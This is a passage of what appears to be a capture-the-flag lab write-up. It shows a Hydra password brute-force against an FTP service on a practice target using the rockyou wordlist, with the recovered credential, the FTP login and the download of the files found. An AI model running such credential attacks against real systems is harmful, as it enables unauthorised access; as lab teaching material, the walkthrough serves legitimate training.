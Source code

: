 <div style="page-break-after: always;"></div>

**Output:**
```                                                                                                 
┌──(rox㉿kali)-[~/Desktop/THM_HTW]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt target.thm ftp -t 4

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-08 20:43:04
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://target.thm:21/
[STATUS] 72.00 tries/min, 72 tries in 00:01h, 14344327 to do in 3320:27h, 4 active
[STATUS] 73.67 tries/min, 221 tries in 00:03h, 14344178 to do in 3245:18h, 4 active
[21][ftp] host: target.thm   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-08 20:46:30
```

We found a password:

```
[21][ftp] host: target.thm   login: chris   password: crystal
```

Now we can use that password to login via `ftp`.

**Command:** 
```
ftp chris@target.thm
Password: <Enter password here>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Now we can have a look at the files in the system.

```bash
ls

#found
229 Entering Extended Passive Mode (|||6982|)
150 Here comes the directory listing. 
-rw-r--r-- 1 0 0 217 Oct 29 2019 To_agentJ.txt 
-rw-r--r-- 1 0 0 33143 Oct 29 2019 cute-alien.jpg 
-rw-r--r-- 1 0 0 34842 Oct 29 2019 cutie.png 
226 Directory send OK.
```

We can get files via command `get <filename>`

```bash
ftp> get To_agentJ.txt
ftp> get cute-alien.jpg
ftp> get cutie.png
```
